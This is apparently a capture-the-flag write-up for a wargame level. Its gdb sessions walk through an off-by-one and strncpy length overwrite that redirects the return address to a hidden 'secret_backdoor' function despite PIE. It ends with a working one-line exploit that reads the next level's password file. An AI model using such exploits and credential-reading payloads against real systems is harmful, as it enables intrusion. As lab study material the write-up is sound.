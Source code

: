 ## Brief
This program takes two user input: a username and a password.
## Exploit
The first function called: `set_username` uses `fgets` and write the 41 first byte of our input after the main buffer.
This will be used in order to overwrite `local14` which is then used as the length of strncpy in the `set_msg` function.
The second user input is in the `set_msg` function since we overwrote the length that we copied to `0xff` we can rewrite the return address.
The trick here is that the PIE is enabled so we need to retrieve the address of the function.
In gdb doing:
```bash
(gdb) info function secret_backdoor 
All functions matching regular expression "secret_backdoor":

Non-debugging symbols:
0x000000000000088c  secret_backdoor
```
Will only give us the offset of the function which is `0x88c`.
We now need the real address and to do so we have to run the program.
```bash
(gdb) b main
Breakpoint 1 at 0xaac
(gdb) r
Starting program: /home/users/level09/level09 
warning: no loadable sections found in added symbol-file system-supplied DSO at 0x7ffff7ffa000

Breakpoint 1, 0x0000555555554aac in main ()
(gdb) info function secret_backdoor
All functions matching regular expression "secret_backdoor":

Non-debugging symbols:
0x000055555555488c  secret_backdoor
```
We now have the correct address which is `0x000055555555488c`

To get the offset of the return address we use gdb as the pattern generator don't seem to work.

```bash
(gdb) disas handle_msg
Dump of assembler code for function handle_msg:
...
   0x0000555555554910 <+80>:	callq  0x5555555549cd <set_username>
...   
End of assembler dump.
(gdb) b *0x0000555555554910
Breakpoint 2 at 0x555555554910
(gdb) c
Continuing.
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------

Breakpoint 2, 0x0000555555554910 in handle_msg ()
(gdb) x/x $rbp + 8
0x7fffffffe5d8:	0x55554abd
(gdb) info reg rdi
rdi            0x7fffffffe510	140737488348432
(gdb) print rbp + 8 - rdi
No symbol table is loaded.  Use the "file" command.
(gdb) print $rbp + 8 - $rdi
$1 = (void *) 0xc8
```

The difference between the buffer and the return address is `0xc8` which is `200`.

## Commands
 
```bash
(python -c "print('\xff'*41)"; python -c "print('A'*200 + '\x8c\x48\x55\x55\x55\x55\x00\x00')"; echo "cat /home/users/end/.pass") | ./level09
```